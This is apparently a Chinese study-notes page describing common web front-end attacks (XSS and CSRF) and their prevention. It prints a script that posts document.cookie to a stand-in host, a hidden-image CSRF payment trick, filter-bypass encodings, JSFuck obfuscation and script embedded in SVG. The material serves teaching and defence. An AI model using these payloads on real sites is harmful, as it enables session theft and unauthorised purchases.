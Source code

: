 ```yaml
---
title: 常见的 web 前端攻击方式有哪些？
ID: '26487'
date: '2020-10-29 15:54:00'
categories:
  - learns
  - dev-prod-env
tags:
  - learns
  - dev-prod-env
---
```


# 常见的 web 前端攻击方式有哪些？

安全

- XSS 跨站请求攻击（反射型，存储型，DOM型）
- XSRF 跨站请求伪造

XSS 跨站请求攻击

比如：一个博客网站，我发表一篇博客，其中嵌入 `<script />`脚本，获取 cookie，发送到我的跨域服务器，当有人查看这篇文章，我可以获取访问者的 cookie

``` js 
<p>模拟 XSS 跨站，获取 cookie</p>
<script> alert(document.cookie);$.post('test.com', {cookie: document.cookie}) </script>
```

XSS 预防（也可以使用 XSS 工具，如 [https://www.npmjs.com/package/xss](https://www.npmjs.com/package/xss)）

- 替换特殊字符，如 < 变成`&lt;` > 变成`` `&gt;` ``
- `<script>` 变成 `&lt;script&gt;` ,这样不会作为脚本执行
- 建议前后端都替换

``` js 
&lt;script&gt; alert(document.cookie);$.post('test.com', {cookie: document.cookie}) &lt;/script&gt;
```

CSRF/XSRF 跨站请求伪造

比如：你正在购物，看中了某个商品，商品 id 是 100，付款接口：xxx.com/pay?id=100，但没任何验证，攻击者想购买 id 为 200 的商品，通过发送邮件隐藏 `<img src="xxx.com/pay?id=200" />`，一旦查看邮件，就购买了 id 为 200 的商品

XSRF 预防（现在很少见了）

- 使用 post 接口
- 增加验证，例如密码，短信验证码，指纹等

**其他**

为协议：

- Data 为协议：data:text/html;base64,PHNjcsdd=
- JavaScript为协议：javascript:alert(1)

Unicode 编码及 URL 编码绕过：

- JavaScript 编码：&#x，\\u 都可以用来表示一串 Unicode 编码，如：\\u0074 \\u0065 \\u0073 \\u0074 或 &#x0074 &#x0065 &#x0073 &#x0074
- HTML实体编码：&#116 &#101 &#115 &#116
- URL编码：%74 %65 %73 %74

xss 蠕虫，比如： myspace蠕虫攻击

xss 编码混淆，利用浏览器解析编码的顺序 js <- url <- html，比如： jsFuck 使用 6 个字符 \[\]()!+ 来编写

``` js 
false       =>  ![]
true        =>  !![]
undefined   =>  [][[]]
NaN         =>  +[![]]
0           =>  +[]
1           =>  +!+[]
2           =>  !+[]+!+[]
10          =>  +[[+!+[]]+[+[]]]
Array       =>  []
Number      =>  +[]
String      =>  []+[]
Boolean     =>  ![]
Function    =>  []["filter"]
run         =>  []["filter"]["constructor"]( CODE )()
eval        =>  []["filter"]["constructor"]("return eval")()( CODE )
window      =>  []["filter"]["constructor"]("return this")()
```

SVG 文件中插入 JS 代码

``` js 
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="100%" height="100%" version="1.1" xmlns="http://www.w3.org/2000/svg">
	<script>
		alert(11)
	</script>
</svg>
```
 
 
